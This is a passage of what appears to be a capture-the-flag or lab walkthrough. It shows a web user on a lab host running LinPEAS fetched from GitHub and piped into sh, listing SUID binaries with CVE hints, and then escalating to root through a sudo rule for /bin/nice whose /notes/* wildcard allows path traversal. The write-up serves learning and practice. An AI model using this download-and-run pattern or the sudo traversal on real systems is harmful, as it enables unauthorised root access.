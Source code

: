 Success!

We find our access flag:

```
webadmin@serv:~$ cat local.txt
4f3a3515800d04b8ff8e3d665e15bc07
```

Time for LINPeas!

```
webadmin@serv:~$ which wget
/usr/bin/wget
webadmin@serv:~$ wget -O- --timeout 3 --tries 1 https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
--2024-04-07 00:00:31--  https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
...
```

Some findings:

- User `florianges` is a sudoer:

```
╔══════════╣ All users & groups
uid=0(root) gid=0(root) groups=0(root)
uid=1000(florianges) gid=1000(florianges) groups=1000(florianges),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)
uid=1001(webadmin) gid=1001(webadmin) groups=1001(webadmin)
```

- Some binaries with potentially exploitable versions:

```
-rwsr-sr-x 1 daemon daemon 55K Nov 12  2018 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)
-rwsr-xr-x 1 root root 31K Aug 16  2019 /usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)
-rwsr-xr-x 1 root root 128K Jul 10  2020 /usr/lib/snapd/snap-confine  --->  Ubuntu_snapd<2.37_dirty_sock_Local_Privilege_Escalation(CVE-2019-7304)
```

I also ran `sudo -l` to figure out what I can do with sudo if anything:

```
webadmin@serv:~/downloads$ sudo -l
Matching Defaults entries for webadmin on serv:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on serv:
    (ALL : ALL) /bin/nice /notes/*
```

Can run `/bin/nice` against anything in `/notes/*`! I bet we can even do `sudo nice /notes/../home/webadmin/my-bad-script.sh`.

I write such a `my-bad-script.sh` to just invoke a privileged shell e.g. `sh -p`.

We get root!

```
webadmin@serv:/notes$ sudo nice /notes/../home/webadmin/my-bad-script.sh
# whoami
root
```

We collect our proof from the root directory:

```
# cd /root
# cat proof.txt
c3f681457c2e2905d896a0c5cc5a2a88
```